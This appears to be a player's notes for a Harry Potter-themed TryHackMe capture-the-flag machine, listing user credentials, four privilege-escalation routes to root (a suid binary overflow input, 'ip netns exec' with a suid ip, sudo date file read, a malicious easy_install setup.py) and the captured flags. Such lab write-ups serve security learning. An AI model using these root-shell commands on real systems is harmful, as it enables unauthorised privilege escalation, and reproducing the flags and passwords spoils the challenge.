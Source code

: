 # HOGWARTS -->

# Users:

hermoine

neville:eos34dqa7qgwq8@006oudrri1 

draco:slytherin

# Paths to root

/etc/room_of_requirement is a suid binary that will grant a root shell with: ```{ echo -e "012345678901234567890123\xbe\xba\xfe\xca"; cat; } | /etc/room_of_requirement```

/bin/ip has the suid bit set. this can get root via:

ip netns add foo
ip netns exec foo /bin/sh -p



hermoine can run date as sudo, though this just allows file read as far as i can tell with date -f file



draco can run easy_install as root, which can privesc via:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF


# Flags:

THM{Albus_Perciva1_Wu1fric_Brian_Dumb1ed0re}

THM{its_wingardium_laviosaa_Ron}

THM{Yeah_1_swallowed_the_sn1tch.}

THM{I_unarm3d_dumbled0re}

